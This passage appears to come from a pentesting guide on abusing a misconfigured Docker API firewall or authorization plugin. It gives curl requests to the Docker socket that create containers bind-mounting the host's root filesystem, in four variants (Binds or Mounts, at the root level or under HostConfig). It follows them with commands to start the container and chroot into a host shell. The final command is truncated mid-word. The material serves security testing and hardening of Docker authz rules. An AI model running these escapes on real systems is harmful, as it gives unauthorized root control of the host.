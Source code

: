 ## Unchecked JSON Structure

### Binds in root

It's possible that when the sysadmin configured the docker firewall he **forgot about some important parameter** of the [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) like "**Binds**".\
In the following example it's possible to abuse this misconfiguration to create and run a container that mounts the root (/) folder of the host:

```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```

> [!WARNING]
> Note how in this example we are using the **`Binds`** param as a root level key in the JSON but in the API it appears under the key **`HostConfig`**

### Binds in HostConfig

Follow the same instruction as with **Binds in root** performing this **request** to the Docker API:

```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```

### Mounts in root

Follow the same instruction as with **Binds in root** performing this **request** to the Docker API:

```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```

### Mounts in HostConfig

Follow the same instruction as with **Binds in root** performing this **request** to the Docker API:

```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```
